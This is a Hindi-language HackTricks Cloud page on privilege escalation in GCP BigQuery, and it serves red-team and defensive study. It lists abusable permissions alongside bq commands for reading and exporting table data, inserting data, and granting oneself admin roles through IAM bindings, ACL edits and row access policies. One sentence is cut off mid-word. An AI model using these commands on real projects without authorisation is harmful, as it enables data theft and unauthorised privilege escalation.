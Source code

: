# GCP - BigQuery विशेषाधिकार उन्नयन

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) के साथ जीरो से हीरो तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में** देखना चाहते हैं या **HackTricks को PDF में डाउनलोड** करना चाहते हैं तो [**सब्सक्रिप्शन प्लान**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** पर **फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें और PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>

## BigQuery

BigQuery के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../gcp-services/gcp-bigquery-enum.md" %}
[gcp-bigquery-enum.md](../gcp-services/gcp-bigquery-enum.md)
{% endcontent-ref %}

### तालिका पढ़ें

एक BigQuery तालिका के अंदर संग्रहित जानकारी पढ़ने से **संवेदनशील जानकारी** खोजना संभव है। जानकारी तक पहुंचने के लिए आवश्यक अनुमति है **`bigquery.tables.get`**, **`bigquery.jobs.create`** और **`bigquery.tables.getData`**:
```bash
bq head <dataset>.<table>
bq query --nouse_legacy_sql 'SELECT * FROM `<proj>.<dataset>.<table-name>` LIMIT 1000'
```
### डेटा निर्यात

यह डेटा तक पहुंचने का एक और तरीका है। **इसे एक क्लाउड स्टोरेज बकेट में निर्यात करें** और **जानकारी वाले फ़ाइलें डाउनलोड करें**।
इस क्रिया को करने के लिए निम्नलिखित अनुमतियाँ आवश्यक हैं: **`bigquery.tables.export`**, **`bigquery.jobs.create`** और **`storage.objects.create`**।
```bash
bq extract <dataset>.<table> "gs://<bucket>/table*.csv"
```
### डेटा डालें

संभावना है कि **किसी अन्य स्थान में किसी भी वंशावली की भरोसेमंद डेटा** को बिगक्वेरी तालिका में डालने के जरिए **किसी सुरक्षा दोष** का दुरुपयोग किया जा सकता है। इसे आसानी से किया जा सकता है अनुमतियों **`bigquery.tables.get`**, **`bigquery.tables.updateData`** और **`bigquery.jobs.create`** के साथ:
```bash
# Via query
bq query --nouse_legacy_sql 'INSERT INTO `<proj>.<dataset>.<table-name>` (rank, refresh_date, dma_name, dma_id, term, week, score) VALUES (22, "2023-12-28", "Baltimore MD", 512, "Ms", "2019-10-13", 62), (22, "2023-12-28", "Baltimore MD", 512, "Ms", "2020-05-24", 67)'

# Via insert param
bq insert dataset.table /tmp/mydata.json
```
### `bigquery.datasets.setIamPolicy`

एक हमलावर इस अधिकार का दुरुपयोग कर सकता है **खुद को बड़े परिसंचालन** देने के लिए एक BigQuery डेटासेट पर:
```bash
# For this you also need bigquery.tables.getIamPolicy
bq add-iam-policy-binding \
--member='user:<email>' \
--role='roles/bigquery.admin' \
<proj>:<dataset>

# use the set-iam-policy if you don't have bigquery.tables.getIamPolicy
```
### `bigquery.datasets.update`, (`bigquery.datasets.get`)

केवल यह अनुमति आपको एक BigQuery डेटासेट पर अपने एक्सेस को अपडेट करने की अनुमति देती है जिसे ACLs को संशोधित करके यह दिखाता है कि कौन इसका उपयोग कर सकता है:
```bash
# Download current permissions, reqires bigquery.datasets.get
bq show --format=prettyjson <proj>:<dataset> > acl.json
## Give permissions to the desired user
bq update --source acl.json <proj>:<dataset>
```
### `bigquery.tables.setIamPolicy`

एक हमलावर इस अधिकार का दुरुपयोग करके एक BigQuery तालिका पर **और अधिक अनुमतियाँ देने** के लिए सक्षम हो सकता है:
```bash
# For this you also need bigquery.tables.setIamPolicy
bq add-iam-policy-binding \
--member='user:<email>' \
--role='roles/bigquery.admin' \
<proj>:<dataset>.<table>

# use the set-iam-policy if you don't have bigquery.tables.setIamPolicy
```
### `bigquery.rowAccessPolicies.update`, `bigquery.rowAccessPolicies.setIamPolicy`, `bigquery.tables.getData`, `bigquery.jobs.create`

दस्तावेज़ के अनुसार, उक्त अनुमतियों के साथ **एक पंक्ति नीति को अपड
```bash
bq query --nouse_legacy_sql 'CREATE OR REPLACE ROW ACCESS POLICY <filter_id> ON `<proj>.<dataset-name>.<table-name>` GRANT TO ("user:user@email.xyz") FILTER USING (term = "Cfba");' # A example filter was used
```
{% endcode %}

आपको पंक्ति नीतियों की जांच के आउटपुट में फ़िल्टर आईडी ढूंढना संभव है। उदाहरण:
```bash
bq ls --row_access_policies <proj>:<dataset>.<table>

Id        Filter Predicate            Grantees              Creation Time    Last Modified Time
------------- ------------------ ----------------------------- ----------------- --------------------
apac_filter   term = "Cfba"      user:asd@hacktricks.xyz   21 Jan 23:32:09   21 Jan 23:32:09
```
<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

दूसरे तरीके HackTricks का समर्थन करने के लिए:

* अगर आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** पर **फॉलो** करें 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **अपने हैकिंग ट्रिक्स साझा करें, PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>
